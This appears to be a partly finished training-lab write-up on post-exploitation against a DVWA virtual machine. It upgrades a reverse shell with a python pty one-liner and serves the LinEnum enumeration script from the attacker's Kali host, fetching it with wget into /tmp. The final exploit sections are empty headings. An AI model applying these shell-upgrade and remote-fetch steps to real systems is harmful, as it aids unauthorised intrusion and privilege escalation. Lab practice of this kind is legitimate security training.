 # Post Exploitation and Privilege Escalation:

At this stage trying to execute a command using the sudo keyword gives us the following:

![Screen Shot 2022-04-25 at 13 28 35](https://user-images.githubusercontent.com/18306338/165151242-b36a820b-e655-4dbc-9588-98a840e50e3c.png)

The "no tty present on askpass program specified" message indicates we are not an user with sudo privileges.

In order to do an upgrade of our shell we need to resort to a python library called 'pty', which spawns a tty shell for us.

![Screen Shot 2022-04-25 at 13 35 11](https://user-images.githubusercontent.com/18306338/165151353-1a958504-d817-401b-b5e6-83516e97fa48.png)

https://netsec.ws/?p=337 - the following link gives quite a few options to spawn a tty shell using different scripting languages.

After executing the python -c 'import pty; pty.spawn("/bin/sh")' command we now see a different output when we execute sudo -l in our terminal.

![Screen Shot 2022-04-25 at 13 36 25](https://user-images.githubusercontent.com/18306338/165151424-a53572c9-4704-4850-9c9c-df2c44c1eaaa.png)

The first stage of 'upgrading' our terminal in now complete.

Next step is to enumerate the machine and get information about running processes/cron jobs/sudo users etc.
In order to achieve that we will use a tool called LinEnum.

First thing we need to do is download the git repo to our machine

![Screen Shot 2022-04-25 at 14 17 17](https://user-images.githubusercontent.com/18306338/165151715-c401f17e-d32c-46c4-ae77-be07ad76da45.png)

We can see the .sh file that we need to execute.

In order to execute the bash script file onto the DVWA machine we need to serve this file on a server, which will make the file accessible on the dvwa machine through the wget tool . For that purpose we use python http.server package.

We start the python server

<img width="728" alt="Screen Shot 2022-04-25 at 14 21 26" src="https://user-images.githubusercontent.com/18306338/165152343-e6744472-68a7-4538-9cfd-3fff18cc96e9.png">

Then we obtain the ip address of our Kali VM

![Screen Shot 2022-04-25 at 14 27 52](https://user-images.githubusercontent.com/18306338/165152506-6eaec5ff-e0de-4c96-994c-f6a8de87b404.png)

After we have the python server running and the ip address we navigate to the reversed shell and run ls -la command to see where we have write access.

After entering the tmp folder we use wget to get the http:\\10.0.2.15\LinEnum\LinEmun.sh file

![Screen Shot 2022-04-25 at 14 36 34](https://user-images.githubusercontent.com/18306338/165152577-99ebd22b-f22a-4db7-bd0d-645919e978d5.png)

Initially trying to run the LinEmun.sh script yields a "Permission denied error". This is usually due to the fact that the file in place is missing the executable right and once added the script runs and we gather information for the DVWA machine.

<img width="765" alt="Screen Shot 2022-04-25 at 14 40 53" src="https://user-images.githubusercontent.com/18306338/165153030-c7ffb42f-7174-46a1-a140-4fc7217300f8.png">

## What is DVWA vulnerable to?

In order to evaluate what DVWA is vulnerable to we use the same approach with another tool called LinPeas.


## What are the most probable exploits? (try using Linux exploit suggester)

## Check the most probable vulnerabilities

## Extra Mile: Try to exploit the machine using the most probable vulnerabilities
